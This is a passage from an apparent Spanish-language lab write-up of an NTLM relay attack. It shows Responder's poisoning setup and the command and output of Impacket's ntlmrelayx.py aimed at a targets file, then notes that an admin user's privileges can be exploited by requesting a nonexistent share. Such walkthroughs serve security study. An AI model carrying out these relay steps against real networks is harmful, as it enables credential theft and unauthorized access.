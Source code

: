 ```bash
[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [ens33]
    Responder IP               [192.168.150.128]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-J4FBRZSWGF3]
    Responder Domain Name      [56XD.LOCAL]
    Responder DCE-RPC Port     [45309]

[+] Listening for events...
```

Acto seguido ejecutamos la herramienta `ntlmrelayx.py` de la siguiente forma:

```bash
❯ ntlmrelayx.py -tf targets.txt -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections
```

Como `jcampo` tiene privilegios de administrador sobre `ramlux`, podemos tomar ventaja de ello accediendo a un recurso que no existe.
